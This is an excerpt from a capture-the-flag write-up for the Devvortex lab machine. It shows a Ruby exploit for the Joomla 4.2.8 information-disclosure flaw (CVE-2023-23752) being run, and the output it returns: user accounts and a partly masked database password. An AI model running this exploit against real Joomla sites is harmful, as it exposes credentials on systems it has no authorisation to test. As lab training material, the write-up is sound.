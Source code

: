 from joomscan i got the version of the joomla running on the machine 

**Joomla! v4.2.8 - Unauthenticated information disclosure**

**CVE:** [2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752)

i download the exploit from [https://www.exploit-db.com/exploits/51334](https://www.exploit-db.com/exploits/51334) 

![Untitled](Devvortex%209cff6b411256458fbb54fc1167476765/Untitled%204.png)

```jsx
➜  devvortex ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli3
DB host: localhost
DB user: lewis
DB password: P*****************#
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
